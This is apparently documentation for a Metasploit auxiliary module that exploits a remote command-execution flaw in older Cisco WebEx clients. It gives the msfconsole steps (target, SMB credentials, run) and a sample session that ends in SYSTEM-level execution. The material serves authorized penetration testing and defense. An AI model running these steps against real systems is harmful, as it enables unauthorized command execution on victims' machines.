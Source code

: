 ## Description

  This module exploits a remote code execution vulnerability in Cisco's WebEx client software versions < v33.6.0.655
  By supplying valid login credentials to the target machine, a single command can be executed with System privileges.

## Vulnerable Application

  Cisco WebEx Client v33.3.8.7 and below

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/smb/webexec_command```
  4. Do: ```set RHOSTS <IP>```
  5. Do: ```set SMBUser <USERNAME>```
  6. Do: ```set SMBPass <PASSWORD>```
  7. Do: ```run```
  8. You should get output that verifies the execution of the command

## Options

### FORCE_GUI

  Uses WMIC to create a GUI

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```
  msf > use auxiliary/admin/smb/webexec_command 
  msf auxiliary(admin/smb/webexec_command) > set rhosts 192.168.37.136
  rhosts => 192.168.37.136
  msf auxiliary(admin/smb/webexec_command) > set smbuser a_user
  smbuser => a_user
  msf auxiliary(admin/smb/webexec_command) > set smbpass password
  smbpass => password
  msf auxiliary(admin/smb/webexec_command) > run

  [+] 192.168.37.136:445    - Command completed!
  [*] 192.168.37.136:445    - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf auxiliary(admin/smb/webexec_command) > 
  ```
